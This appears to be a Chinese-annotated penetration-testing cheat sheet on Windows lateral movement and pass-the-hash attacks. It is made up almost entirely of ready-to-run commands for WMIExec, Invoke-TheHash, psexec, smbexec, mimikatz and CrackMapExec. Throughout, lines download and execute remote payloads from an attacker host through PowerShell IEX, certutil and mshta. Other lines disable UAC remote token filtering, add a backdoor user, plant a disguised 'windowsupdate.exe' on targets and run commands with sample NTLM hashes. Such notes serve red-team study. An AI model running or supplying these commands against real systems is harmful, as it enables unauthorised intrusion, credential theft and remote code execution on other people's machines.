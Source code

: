 	允许本地管理组所有成员连接
	>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f  
 ### WMIExec & TheHash
	>powershell -ep bypass
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-TheHash/Invoke-WMIExec.ps1'); 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-TheHash/Invoke-TheHash.ps1');
	>Invoke-TheHash -Type WMIExec -Target 192.168.0.0/24 -Domain zone.com -Username godadmin -Hash f1axxxxxxxxxb771
![image](/assets/Pentest_Note/master/img/383.png)
 ### WMI
	>net use \\1.1.1.1\admin$ /user:"administrator" "password"
	>copy windowsupdate.exe \\1.1.1.1\admin$\dir\
	>wmic /NODE:"1.1.1.1" /user:"administrator" /password:"password" PROCESS call create "c:\windows\dir\windowsupdate.exe" 
	>del \\1.1.1.1\admin$\dir\windowsupdate.exe /F 
	>net use \\1.1.1.1\admin$ /del
 #### wmiexec.py
	https://github.com/SecureAuthCorp/impacket 
	>python wmiexec.py -hashes AAD3B435B51404EEAAD3B435B51404EE:A812E6C2DEFCB0A7B80868F9F3C88D09 域名/Administrator@192.168.11.1 "whoami"
	>python wmiexec.py admin@192.168.1.2
![image](/assets/Pentest_Note/master/img/384.png)
 #### wmiexec.vbs
	半交互式：
	>cscript //nologo wmiexec.vbs /shell 192.168.1.2 admin pass
	单条命令
	>cscript //nologo wmiexec.vbs /cmd 192.168.1.2 domain\admin pass "whoami"
	下载执行
	>wmic /node:192.168.0.115 /user:godadmin /password:password PROCESS call create "cmd /c certutil.exe -urlcache -split -f http://192.168.0.107/clickme.exe c:/windows/temp/win.exe & c:/windows/temp/win.exe & certutil.exe -urlcache -split -f http://192.168.0.107/clickme.exe delete"
![image](/assets/Pentest_Note/master/img/385.png)
 #### Powershell
	>wmic /NODE:192.168.3.108 /user:"godadmin" /password:"password" PROCESS call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.107/xxx.txt');\""
	Invoke-WMIExec
	>powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-WMIExec.ps1');Invoke-WMIExec -Target 192.168.0.115 -Domain Workgroup -Username godadmin -Hash f1a5b1a3641bec99ff92fe9df700b771 -Command \"net user admin Qwe@123 /add\" -Verbose"
![image](/assets/Pentest_Note/master/img/386.png)

	>powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-WMIExec.ps1');Invoke-WMIExec -Target 192.168.0.115 -Domain Workgroup -Username godadmin -Hash f1xxxxxxxxxxxxx771 -Command \"mshta http://192.168.0.107:8080/YAyAPN6odzbAzKn.hta\" -Verbose"
![image](/assets/Pentest_Note/master/img/387.png)
 ### Psexec
	>psexec.exe -hashes AAD3B435B51404EEAAD3B435B51404EE:A812E6C2DEFCB0A7B80868F9F3C88D09域名/Administrator@192.168.1.1 "whoami"
	>psexec.exe –accepteula \\192.168.1.2 –u admin –p pass cmd.exe 无确认窗
	Msf
	>use exploit/windows/smb/psexec
	>use exploit/windows/smb/psexec_psh(powershell版本)
 ### Psexec-py
  	>python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
 ### Mimikatz
	Windows XP、Vista、2008、7、2008 r2 和2012没有安装KB2871997补丁的机器上，使用NTLM进行PTH
	mimikatz # privilege::debug
	mimikatz # sekurlsa::pth /user:admin /domain:xxx.com /ntlm:{ntlm}
	执行一个文件
	mimikatz # sekurlsa::pth /user:admin /domain:xxx.com /ntlm:{ntlm} /run:powershell.exe
	Windows 8.1 、2012 R2、安装KB2871997的Win 7 、2008 R2和2012上可使用AES KEY进行PTH
	>privilege::debug
	>sekurlsa::ekeys
	>sekurlsa::pth /user:administrator /domain:zone.com /aes128:{key}
 ### pth-winexe
	>pth-winexe -U godadmin%password --system --ostype=1 //192.168.0.115 cmd
![image](/assets/Pentest_Note/master/img/388.png)
 ### Smbexec
	>python smbexec.py administrator@192.168.0.98
![image](/assets/Pentest_Note/master/img/389.png)
 ### CrackMapExec
  	>cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
